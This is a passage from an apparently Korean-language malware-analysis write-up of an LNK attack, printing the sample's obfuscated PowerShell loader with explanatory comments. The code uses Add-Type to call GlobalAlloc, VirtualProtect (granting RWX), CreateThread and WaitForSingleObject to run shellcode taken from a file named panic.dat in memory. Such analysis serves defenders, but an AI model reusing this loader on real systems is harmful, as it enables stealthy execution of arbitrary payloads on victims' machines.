 ```powershell

# CreateThread 획득
$b3s9s03sfse = '[DllImport(' + $k1123 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';

# CreateThread를 사용하기 위한 클래스 정의
$cake3sd23 = Add-Type -MemberDefinition $b3s9s03sfse  -Name 'BBB' -PassThru;

# WaitForSingleObject 획득
$dtts9s03sd23 = '[DllImport(' + $k1123 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';

# WaitForSingleObject를 사용하기 위한 클래스 정의
$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;
```



#### 4. Thread를 생성하여 shellcode 실행

```powershell
# panic.dat의 내부 데이터 길이를 획득
$byteCount = $exeFile.Length;

# GlobalAlloc으로 heap 할당
$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);

# VirtualProtect로 rwx 권한 부여
$old = 0;
$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old);

# 할당한 heap에 panic.dat의 내부 데이터 작성
for($i = 0; $i -lt $byteCount; $i++) {
	[System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $exeFile[$i]);
};

# CreateThread를 호출하여 작성한 panic.dat 내부 데이터 실행.
$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);

# 생성한 Thread가 종료될 때까지 대기
$fried3sd23::WaitForSingleObject($handle, 500 * 1000);
```



### ▪ <u>panic.dat 분석</u>

cff explorer를 사용하여 **panic.dat** 파일을 확인해보니, 내부에 shellcode가 존재하였습니다.

<img src="../images/2024-12-07-LNK-Malware-Analysis/IMG-lnk 분석-20241208165231186.png" alt="IMG-lnk 분석-20241208165231186" style="zoom: 80%;" />